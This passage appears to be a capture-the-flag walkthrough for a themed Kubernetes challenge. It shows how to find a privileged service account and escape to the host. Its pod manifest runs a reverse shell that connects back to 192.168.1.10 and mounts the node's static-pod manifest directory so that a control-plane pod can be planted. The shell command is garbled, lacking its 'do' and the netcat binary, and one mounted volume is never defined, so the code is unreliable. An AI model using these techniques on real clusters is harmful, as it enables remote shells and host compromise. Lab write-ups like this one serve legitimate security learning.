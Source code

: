 WHO has access to it is subtly hinted 
```
$ kubectl get sa -n pub --show-labels
NAME              SECRETS   AGE   LABELS
barkeep           1         26h   host=true,pint-glass=true
burly-man         1         26h   bucket=true
default           1         26h   <none>
delivery-person   1         26h   box=true
old-man           1         26h   dartboard=true
woman             1         26h   flower=true
```

The barkeep is the "host" and now we need a 2nd shell.

```
apiVersion: v1
kind: Pod
metadata:
  name: goose-barkeep-hostmount
  namespace: pub
spec:
  serviceAccountName: barkeep
  containers:
  - image: alpine:latest
    name: goose-barkeep
    command:
      - sh
      - -c
      - while true;  192.168.1.10 5556 -e sh; done
    volumeMounts:
    - mountPath: /kube
      name: kube
    - mountPath: /goose-home
      name: home
  volumes:
  - name: home
    hostPath:
      path: /etc/kubernetes/manifests
```

With that you can drop in the `bell.yaml` manifest from the previous step into
`/etc/kubernetes/manifests`. If you get pods you should see this in the home
namespace:
```
$ kubectl get po -n home
NAME                         READY   STATUS    RESTARTS   AGE
bell-honkctl-control-plane   1/1     Running   0          17s
```

and if you happen to curl the bell service...
```
   ,,,   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,    ,,,   ,,,    ,,,   ..,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,   .,,,   ,.,    ,,,   ,,,.   ,,,   .,,,
...   ...    ...   ....   ...   ....   ...    ...   ....   ...   ....   ...    ...   ....   ...   ....   ...    ...   ...    ...   ....   ...    ...   ...    .
.,,   ..,    ,.,   .,..   ..,   ...,   ,.,    ,..   ..,.   ..,   .,.,   ,..    ..,   ..,.   ,.,   .,..   ..,    ..,   ,..    ,..   ..,.   ..,    ,.,   ,..    .
   ..,   ....   ,..    ,..   ,.,    ..,   .,..   ,,.    .,,   ,.,    ,.,   .,..   ..,    ..,   ,..    ...   ..,.   ,.,   .,.,   ,,.    .,,   ,.,.   ,.,   .,..
   ,,,   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,    ,,,   ,,,    .,,   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,   .,,,   ,,,    ,,,   ,,,.   ,,,   .,,,
,,,   ,,,    ,,,   .,,.   ,,,   .,,,   ,,,    ,,,   ,,,.   ,,,   .,,,   ,,,    ,,,   ,,,.   ,,,   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,    ,,,   ,,,    ,
   ,,,   .,,.   ,,,    ,,,   ,,.    ,,,   .,,.   ,,,    ,,,   .,,    ,,,   ..,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,   .,,,   ,,,    ,,,   .,,.   ,,,   .,,,
   ,,,   .,,.   ,,,    ,,,   ,,./&@@@@&   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,    ,,,   ,,,    ,,,   .,,.   ,,,   .,,,   ,,,    ,,,   ,,,.   ,,,   .,,,
```